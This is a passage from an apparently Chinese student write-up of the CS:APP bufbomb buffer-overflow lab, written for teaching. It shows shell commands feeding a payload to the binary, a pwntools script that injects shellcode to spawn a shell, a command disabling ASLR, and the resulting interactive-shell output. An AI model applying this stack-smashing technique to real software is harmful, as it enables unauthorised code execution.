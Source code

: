 ``` asm tab="ASM"
.text:08048E4B call    _printf
.text:08048E50 mov     dword ptr [esp], 2
.text:08048E57 call    validate
.text:08048E5C jmp     short loc_8048E33
.text:08048E5C bang endp
```

没有问题。完结撒花。

!!! tip
    好吧我还是，再说几句关于不用pwntools的情况。由于有两次输入，似乎只调用一次`sendstring`没法搞定payload。于是就不得不这样：
    
        ./sendstring < ./payload > ./converted
        echo "c374fd6d" | ./sendstring >> ./converted
        ./bufbomb -t domain < ./converted
    
    第二行就是把第二次要输入给全局变量的Cookie塞到转换后的payload文件里。
    
    或许你有更好的办法，总之能搞定就行。不过我还是推荐用pwntools。

### Nitro mode
其实我们的实验没要求这个，我还没空去看这是干嘛的，昨晚在大佬的指导下搞了这个getshell：

``` python
from pwn import *

p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-n', '-t', 'domain'])
print(p.recv())
payload = asm(shellcraft.sh()) + 'a' * (0x20c - 44) + p32(0xFFFFB060)
p.sendline(payload)
p.interactive()
print(p.recv())

```

这个...由于没有关栈上执行，所以如果关闭了地址随机：

``` bash
echo 0 > /proc/sys/kernel/randomize_va_space 
```

就可以：

```
/home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py
[x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
[+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 14786
Team: domain

[*] Switching to interactive mode
Cookie: 0x6dfd74c3
ls
main.py  pwntools.iml  venv

```
